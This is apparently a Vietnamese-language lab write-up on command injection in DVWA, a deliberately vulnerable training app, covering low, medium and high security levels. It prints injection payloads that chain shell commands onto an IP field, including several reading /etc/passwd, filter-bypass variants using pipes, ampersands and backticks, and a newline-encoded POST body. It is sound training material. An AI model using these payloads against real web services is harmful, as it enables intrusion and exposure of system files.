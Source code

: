 
# Command Injection - DVWA

## 🛡️ Vulnerability: Command Injection  
Mức độ: **LOW**, **MEDIUM**, **HIGH**

---

## 🔹 LEVEL: LOW

### 📌 Description:
Web cho chúng ta nhập input đầu vào là 1 địa chỉ IP sau đó nó sẽ thực hiện lệnh ping đến địa chỉ IP đó và thực hiện trả về kết quả ở bên dưới
Thực hiện nhập một địa chỉ IP 8.8.8.8 và submit:

Ví dụ: Nhập địa chỉ IP `8.8.8.8` và bấm Submit.
![](images/image6.png)

### 🎯 Goal:
Làm cho server thực hiện các lệnh command ngoài ý muốn thông qua đầu vào.

### 🔍 Phân tích:
- Source code không thực hiện kiểm tra đầu vào.
- Input được đưa trực tiếp vào hàm `shell_exec()`.
- Ta có thể nối nhiều mệnh đề OS command vào bằng các ký tự đặc biệt.

Ví dụ:

```
8.8.8.8; ls /
```

Lúc này câu lệnh thực thi sẽ là:

```
ping -c 4 8.8.8.8; ls /
```

![](images/image2.png)

> Kết quả là cả lệnh `ping` và `ls /` đều được thực hiện.
Hoặc kéo dài ra nhiều mệnh đề hơn:

```
8.8.8.8; ls /; cat /etc/passwd
```
![](images/image9.png)
---

## 🔸 LEVEL: MEDIUM

### 🔍 Phân tích:
Ở mức này, dev đã **chặn ký tự `;` và `&&`** bằng cách đưa chúng vào **blacklist**.

![](images/image5.png)
Tuy nhiên, vẫn còn nhiều ký tự khác giúp nối thêm mệnh đề:

- `|` : chuyển output của lệnh 1 thành input của lệnh 2  
- `&` : chạy lệnh ở background  
- `` `command` `` : thực thi lệnh và trả về output  
- `$(command)` : giống như backtick  
- `||` : logic OR – chạy lệnh thứ 2 nếu lệnh đầu lỗi  

### 🧪 Thực hành:

```
8.8.8.8 & ls / & cat /etc/passwd
![](images/image6.png)
8.8.8.8 | ls / | cat /etc/passwd
8.8.8.8a || ls /
![](images/image7.png)
```

---

## 🔺 LEVEL: HIGH

### 🔍 Phân tích:
- Hầu hết các ký tự có khả năng nối mệnh đề đều đã bị chặn.
- Hàm `trim()` được dùng để loại bỏ khoảng trắng, gây khó khăn hơn.
![](images/image1.png)
Tuy nhiên vẫn tồn tại **lỗi trong blacklist**:

```text
Ký tự bị chặn: "| " (pipe + dấu cách)
```

Vì vậy nếu viết là `|cat`, hoặc ` |cat`, thì sẽ **không bị blacklist chặn**.

Ví dụ:

```
8.8.8.8 |cat /etc/passwd
```
![](images/image8.png)
> ⚠️ Đây là lỗi dev sơ suất, không áp dụng cho mọi trường hợp.

---

### 🧪 Cách bypass tối ưu: **Mã hóa xuống dòng**
Sử dụng `%0A` để encode ký tự xuống dòng (`
`), PHP sẽ tự động decode:

Ví dụ gói POST:

```http
POST /vulnerabilities/exec/source/high.php
Content-Type: application/x-www-form-urlencoded

ip=8.8.8.8%0Als+%2F
```

- `%0A` → `
`
- Tác động trực tiếp đến lệnh shell

### ✅ Thực hành giả thuyết:

```
8.8.8.8%0Acat /etc/passwd
```
![](images/image10.png)
> ✅ Kết quả: **Giả thuyết đúng**

---

## 📌 Tổng kết

| Mức độ | Kỹ thuật khai thác |
|--------|--------------------|
| LOW    | `;` để nối nhiều command |
| MEDIUM | `|`, `&`, `||`, `` ` ``, `$()` |
| HIGH   | Lỗi blacklist + `%0A` (newline encode) |
